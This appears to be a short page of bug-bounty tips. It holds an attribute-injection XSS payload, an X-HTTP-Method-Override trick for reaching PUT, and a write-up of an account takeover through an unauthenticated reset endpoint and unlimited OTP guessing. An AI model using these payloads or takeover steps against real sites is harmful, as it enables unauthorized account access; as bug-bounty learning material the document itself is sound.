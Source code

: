 ## css injection payload

```css
1"Style="position:fixed;top:350;left:400;font-size:99999px;"OnPointerEnter="new class extends confirm`_Y000!_`{}"
```

## HTTP PUT Override
If server only allows GET and POST method, then try adding “X-HTTP-Method -Override: PUT to achieve RCE via PUT method

## waybackurls always rockxx❤️, got awarded $$$$ for Account takeover.
1. waybackurls target > wayback.txt
2. found an unauth endpoint: target/api/reset?user=--id-here--&type=email
3. page accepting new email and password🙄
4. tried by entering my userid, new email and password
5. changed successfully, means endpoint working😛
6. now the thing is how to bypass password restriction😞
7. tried response interception etc, nothing worked😒
8. then removed password parameter in proxy, and forwarded Boom🔥!!! Email changed successfully.🌞
After that they added email verification by sending 4 digit otp on previous email.
No rate limiting on otp verification😈.
Another $$$

